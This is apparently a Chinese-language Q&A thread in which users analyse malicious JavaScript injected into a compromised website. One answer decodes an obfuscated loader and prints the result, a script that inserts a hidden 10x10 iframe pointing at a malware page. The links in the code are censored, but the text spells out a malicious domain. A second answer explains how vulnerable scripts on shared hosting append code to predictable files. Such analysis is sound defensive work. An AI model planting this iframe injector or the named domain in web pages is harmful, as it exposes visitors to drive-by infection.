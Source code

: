 ```
n=["9","9","45","42","17","1f","40","4b","3o","4h","49","41","4a","4g","...
h=2;
s="";
for(i=0;i-631!=0;i++){
    k=i;
    s+=String.fromCharCode(parseInt(n[i],25));
}
z=s;
print(z); 
```

**4.**最后给我看这个：

```
smjs < badscript3.js >badscript4.js
emacs badscript4.js 
```

那是：

```
if (document.getElementsByTagName('body')[0]){
iframer();
} else {
document.write("<iframe
      src='http:  --  censored virus link -- .php' width='10' height='10'
      style='visibility:hidden;position:absolute;left:0;top:0;'></iframe>");
}
function iframer(){
var f = document.createElement('iframe');
f.setAttribute('src','http: --  censored virus link -- keen.php');
f.style.visibility='hidden';f.style.position='absolute';
f.style.left='0';f.style.top='0';
f.setAttribute('width','10');f.setAttribute('height','10');
document.getElementsByTagName('body')[0].appendChild(f);
} 
```

注意：为了最大程度地降低`cut'n past`风险，我已经审查了链接，他们最初指向**病毒**：`http:` *斜杠斜杠* `ragoose.ipq.co` *斜杠* `correcting` *斜杠* `imagine-ready_enter_keen.php`

小心点，但玩得开心！

* * *

## 回答 #3

> 赞同：1
> 
> 时间：2012-11-17T09:23:06.273

我在共享主机上多次发生这种情况。通常它是您或您机器上其他人的易受攻击的脚本，然后可以查找可预测的文件路径并附加到文件中。

```
/home/user1/public_html/index.php for example is very predictable. 
```
